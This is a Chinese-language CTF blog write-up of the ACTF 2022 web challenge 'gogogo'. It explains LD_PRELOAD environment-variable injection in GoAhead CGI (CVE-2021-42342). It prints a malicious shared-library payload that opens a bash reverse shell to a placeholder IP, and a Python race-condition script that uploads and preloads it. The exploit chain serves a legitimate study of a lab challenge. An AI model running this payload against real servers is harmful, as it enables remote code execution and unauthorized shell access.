 ```yaml
---
title: ACTF 2022 writeup
date: 2022-07-01 18:41:00
updated: 2022-07-01 18:41:00
tags: [ctf,security]
---
```


## web

### gogogo

这道是ACTF的web签到题，是根据CVE-2021-42342 GoAhead 远程命令执行漏洞出的一道环境变量注入的题目，相对来说比较简单，按照[p牛的文章](https://tttang.com/archive/1399/)就可以直接复现。

题目是一个用GoAhead起的Web server，和一个叫hello的cgi文件，有执行权限并且访问会输出当前的环境变量，除此之外也没什么别的，和文章中提的一样。

首先呢这个GoAhead是开启了CGI的配置的，所以我们可以在cgi-bin目录下访问到对应的cgi文件hello，访问一下看看先。

![图 1](https://s2.loli.net/2022/07/01/nl2JZfbyMaWwomg.png)  

接下来我们可以在开启CGI配置的情况下，进行环境变量注入，通过发一个multipart数据包，以表单的形式注入环境变量，使用的环境变量是`LD_PRELOAD`，之前打的虎符CTF2022中，ezphp那个题目也是利用`LD_PRELOAD`出了一道php环境变量注入题。回到gogogo这个题目，先来看看怎么如何成功注入环境变量。按照p牛的文章，先请求一下看看能不能直接注入`LD_PRELOAD`
![图 2](https://s2.loli.net/2022/07/01/hRkip1AgCao4SIt.png)  
先用curl发个POST请求，在表单中添加`LD_PRELOAD=1`发出去看看
![图 3](https://s2.loli.net/2022/07/01/PAYZe9zFwkOpQ3m.png)  

这里补充一下对于CGI的内容，CGI是Web服务器和一个独立的进程之间的协议，它会把HTTP请求Request的Header头设置成进程的环境变量，HTTP请求的Body正文设置成进程的标准输入，进程的标准输出设置为HTTP响应Response，包含Header头和Body正文。

对于一个CGI程序，主要的工作是从环境变量和标准输入中读取数据，然后处理数据，最后向标准输出中输出数据。

- 环境变量
环境变量中存储的叫做Request Meta-Variables，也就是诸如QUERY_STRING、PATH_INFO之类的，这些都是由Web服务器通过环境变量传递给CGI程序的，CGI程序也是从环境变量中读取的。
- 标准输出
标准输出中存放的往往是用户通过PUTS或POST提交的数据，这些数据也是由Web服务器传递过来的。

我们现在通过Body中发送multipart表单的方式，能够成功环境变量注入。那我们如何利用`LD_PRELOAD`这个环境变量来做到RCE呢?

LD_PRELOAD是Linux系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库，一方面，我们可以以此功能来使用自己的或是更好的函数（比如，你可以使用Google开发的tcmalloc来提升效率），而另一方面，我们也可以向别人的程序注入程序，从而达到特定的目的。

这样看来，我们可以上传一个.so文件到服务器，然后让`LD_PRELOAD`的值为这个文件的路径，让hello这个程序运行时动态链接这个恶意的.so文件，从而达到RCE的目的。

![图 4](https://s2.loli.net/2022/07/01/lS5zaCxr2IGM4TF.png)  

而且直接去上传文件，GoAhead源码中对于上传目录的配置，会默认上传到/tmp这个目录，但直接去上传会由于/etc/goahead/tmp这个目录不存在并且也没有写权限而无法上传，不过题目的环境也是根据p牛这篇cve复现的文章做了对应的配置，修改了`ME_GOAHEAD_UPLOAD_DIR`这个参数，Dockerfile里面有这样一句`make SHOW=1 ME_GOAHEAD_UPLOAD_DIR="'\"/tmp\"'"`因,这里`"'\"/tmp\"'"`是用\转移了双引号，实际上是套了三层，最外层因为`ME_GOAHEAD_UPLOAD_DIR`是个字符串要加双引号，然后在shell中传参又会去掉一层引号，最后在代码中又是作为一个字符串，因此是三层引号，看起来就不太好懂的样子，做一下解释。

```c
#ifndef ME_GOAHEAD_UPLOAD_DIR
    #define ME_GOAHEAD_UPLOAD_DIR "tmp"
#endif

PUBLIC void websUploadOpen(void)
{
    uploadDir = ME_GOAHEAD_UPLOAD_DIR;
    if (*uploadDir == '\0') {
#if ME_WIN_LIKE
        uploadDir = getenv("TEMP");
#else
        uploadDir = "/tmp";
#endif
    }
    trace(4, "Upload directory is %s", uploadDir);
    websDefineHandler("upload", 0, uploadHandler, 0, 0);
}
```

所以虽然GoAhead本身不配置是不能这样传参的，但是题目环境是做了这样的配置的（题目应该就是按照P牛文章出的），因此在这种特定情形下，有/tmp目录，就可以上传文件。

那么接下来就是先尝试在本地劫持一个写有恶意代码`LD_PRELOAD`的动态链接库，上传.so文件，利用恶意代码弹Shell,cat flag一把梭了。

但是还有一个需要说的就是，我们本地劫持动态链接库后，应该给`LD_PRELOAD`赋值什么才能让cgi文件hello去链接我们上传的这个so文件呢？linux中在目录`/proc/pid/fd/N`是文件描述符，是一个符号链接，指向实际打开的地址，而`/proc/self/fd/N`就指向加载了`LD_PRELOAD`这个环境变量的cgi程序进程本身了，这样就可以达到链接我们上传到/tmp/这个目录的恶意so文件的目的。

但是参考P牛文章，实际过程还会遇到`ME_GOAHEAD_LIMIT_POST`大小限制的问题，默认是16284个字节，也就是我们使用的动态链接库不能过大，这里要需要gcc -s来缩小payload体积，使得不超过大小限制。

还有一个问题是为什么`/proc/pid/fd/N`一定能够找到一个指向`/tmp`下我们上传的so文件的文件描述符呢？实际上在执行到cgi这里时，被打开的临时文件描述符已经被关闭了，那么就无法找到我们包含的文件了，自然也无法达成利用。

这里的解决方案是想办法让这个文件描述符不要关闭，这里p牛给出的解决方案有两个，一是条件竞争，一个线程上传文件，一个线程使用`LD_PRELOAD`包含这个文件，第二是给evil.so增加一些脏字符并且设置HTTP请求的Content-Length小于实际的数据包大小，使GoAhead完全读取到payload.so的内容，但是我们并没有完成上传文件的过程，使文件描述符没有关闭。

最后参考[AAA师傅的官方payload](https://github.com/team-s2/ACTF-2022),复现了题目。

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void aaanb(void)
{
    unsetenv("LD_PRELOAD");
    system("touch /tmp/success");
    system("/bin/bash -c 'bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/7777 0>&1'");
}

```

```python
import requests, random
from concurrent import futures
from requests_toolbelt import MultipartEncoder
hack_so = open(
    'hack.so', 'rb').read()

def upload(url):
    m = MultipartEncoder(
        fields = {
            'file':('1.txt', hack_so,'application/octet-stream')
        }
    )
    r = requests.post(
        url = url,
        data=m,
        headers={'Content-Type': m.content_type}
    )

def include(url):
    m = MultipartEncoder(
        fields = {
            'LD_PRELOAD': '/proc/self/fd/7',
        }
    )
    r = requests.post(
        url = url,
        data=m,
        headers={'Content-Type': m.content_type}
    )


def race(method):
    url = 'http://xxx.xxx.xxx.xxx:10218/cgi-bin/hello'
    if method == 'include':
        include(url)
    else:
        upload(url)

def main():
    task = ['upload','include'] * 1000
    random.shuffle(task) # 
    with futures.ThreadPoolExecutor(max_workers=5) as executor:
        results = list(executor.map(race, task))

if __name__ == "__main__":
    main()
```

### poorui

### beWhatYouWannaBe

### ToLeSion

### Mysient

## misc

### Broken QRCode
